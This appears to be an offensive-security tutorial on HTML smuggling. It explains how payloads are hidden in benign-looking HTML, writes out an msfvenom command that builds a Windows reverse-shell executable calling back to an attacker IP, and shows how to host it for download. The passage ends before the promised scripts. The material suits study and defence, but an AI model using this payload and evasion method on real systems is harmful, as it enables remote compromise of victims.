 # HTML-Smuggling
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag. This article demonstrates the methodology and two such readily available scripts that perform HTML smuggling.

 - MITRE TACTIC: Defense Evasion (TA0005)
 - MITRE Technique ID: Obfuscated Files or Information (T1027) 
 - MITRE SUB ID: HTML Smuggling (T1027.006)
 
Let’s start with the basics. In HTML5, if we want a user to download a file hosted on our server, we can do that by using the anchor tag.

    <a href=”/payload.exe” download=”payload.exe”>Download Here</a>
For that, let’s first create a payload using msfvenom and copy it in our apache webroot directory.

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.89 LPORT=1234 -f exe > payload.exe

    cp payload.exe /var/www/html
Then we copy this into the apache webroot and start the apache server

    cp index.html /var/www/html
    
    cd /var/www/html
    
    service apache2 start
But in order to supply this into our blob as a buffer, we need a single string with no enters. This fixing be done manually by copying this output in notepad and removing enters or you could follow our alternate approach by going to ***[base64.guru](https://base64.guru/)*** website.
Here, upload your payload and the converted base64 shall be given in a single line.
